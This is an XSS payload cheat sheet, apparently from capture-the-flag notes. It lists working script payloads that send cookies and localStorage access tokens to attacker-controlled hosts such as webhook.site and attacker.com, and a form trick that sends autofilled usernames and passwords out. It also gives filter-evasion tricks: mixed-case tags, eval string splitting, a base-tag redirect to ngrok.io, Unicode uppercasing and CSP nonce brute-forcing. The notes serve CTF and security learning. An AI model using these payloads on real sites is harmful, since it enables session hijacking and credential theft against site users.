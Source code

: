 # XSS (Cross-Site Scripting)
> XSS is a form of injection that enables attackers to inject client-side scripts into web pages viewed by other users.

## OG exploit (cookie grabbing / local storage)
By far the most common type of XSS. Involves loading an external link controlled by attacker with cookie appended as a query, may be a JWT, flag or some other secret.

```
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
<script>fetch('https://webhook.site?'+document.cookie)</script>
```

## Password autofill
We can exploit password managers that automatically fill in HTML input that match `username` and `password` types.

```
<form class="login-form" method="GET" action="/login"> 
	<input type="username" name="username" onchange="fetch('https://attacker.com?username='+this.value)">
	<input type="password" name="password" onchange="fetch('https://attacker.com?password='+this.value)"> 
</form>
```

## Filter evasion!!

### Bypass < & >
Using these special characters: `＜` and `＞` or other similar characters. If you're lucky, the backend will accidentally convert these to actual angle brackets

### Bypass blacklisted js functions
```js
eval('ale'+'rt(1)')
```

### Bypass tag blacklist (no `<script>`)
```
<script x>
<script x>alert(1)<script y>
```

```
<sCrIpt> alert(1) </sCrIpt>
```

### Using `<base>` to bypass tight `<script>` filter

```html
</h3> <base href="https://ngrok.io/abc">
```

This payload can be used provided that there are *existing* **relative** script tags on the page.  
What this does is to change the relative root url of the script tag, so the script tags are now pointing to an attacker controlled source.


## Input is being uppercased

In addition, you can also take advantage of this. Certain characters (like ß and ﬃ) count as a single character, but become multiple characters when uppercased (SS and FFI). This is useful in very limited contexts, such as when the length of the initial string is used to iterate through the modifed (uppercased) string later on. By spamming the special characters at the start, you can "push" your XSS payload back, so any filters in place doesn't detect/remove your payload. Refer to: [blazing fast](https://smitop.com/p/dctf22-blazingfast/) (TODO: find characters that do the same for lowercasing)

## nonce with CSP filter

The nonce of a javascript tag is to provide security. For example, your `<script nonce='abc'>` will only execute if the correct nonce is returned in the response CSP headers.  

In a case where your input determines the CSP nonce, and the hash algorithm is simple enough, you can brute force your input to have dummy bytes which will result in a correct nonce. Read the below for more:  

https://github.com/bediger4000/crc32-file-collision-generator

## Relevant tools
`/CTF/tools/Web/XSS/xssstrike`